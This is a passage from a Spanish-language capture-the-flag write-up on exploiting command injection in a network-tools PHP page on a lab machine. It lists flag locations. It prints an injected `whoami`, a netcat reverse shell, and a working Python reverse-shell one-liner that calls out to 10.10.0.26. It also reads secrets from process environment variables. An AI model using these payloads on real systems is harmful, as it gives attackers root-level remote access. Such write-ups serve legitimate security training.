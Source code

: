 Lo que al final se reduciría en ejecución remota de comandos, ya que en consola podemos usar "separadores" para ejecutar múltiples comandos en una misma instrucción, lo que a nivel de código se ejemplificaría en `ping 127.0.0.1; whoami`.

![exploit_4](./images/exploit_4.png)

Al ver el servicio lo ejecuta directamente `root`, al obtener una reverse shell, no se requiriría proceso de escalación de privilegios.

Al realizar la prueba para obtener una reverse shell con netcat usando `;nc -e /bin/bash 10.10.0.26 1234` no se ejecutó satisfactoriamente por lo que se optó intentar con diferentes opciones, siendo `python3` el funcional:

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.26",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![exploit_5](./images/exploit_5.png)

## Ubicación de banderas

1. Llave - valor de `memcached`.
2. `/var/lib/nginx/html/network-tools.php` x 3.
3. `/`
4. Extrayendo las variables de entorno de los procesos en ejecución con `strings /proc/*/environ | grep ETSCTF`.
5. `/root`.